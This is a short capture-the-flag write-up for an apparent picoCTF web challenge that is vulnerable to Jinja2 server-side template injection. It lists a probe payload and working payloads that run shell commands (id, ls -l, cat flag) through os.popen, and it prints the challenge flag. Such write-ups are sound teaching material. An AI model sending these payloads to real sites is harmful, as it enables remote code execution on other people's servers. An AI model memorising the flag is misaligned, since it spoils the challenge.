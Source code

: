 # Overview
Website where you can announce whatever you want!  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/922068b0-da07-44fc-8dea-1b1c0d59735b" />  
**Hint 1:** Server Side Template Injection  

It can be seen that the web will reflect back what we enter into the box  
=> Normally we will immediately think of SSTI vulnerabilities  

# Writeup
**B1:** Recon  
I'll try entering `{{7*'7'}}` into the box and see what the web returns  
=> web page returns the string 7777777  
=> We can immediately guess that this is python's Jinja2 templates  
**B2:** Now we will enter: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` to see what the web returns  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/93ea84df-579e-4302-a007-3460b85da70e" />  
Web has actually executed our `Id` statement  
**B3:** Exploit  
Now we will find where the flag is using `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -l').read() }}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/04400d8f-bbf3-4dc0-8a2f-99ab81916c38" />  
=> Use `cat flag` to read  

Flag will be returned  
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}  

See more : [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)



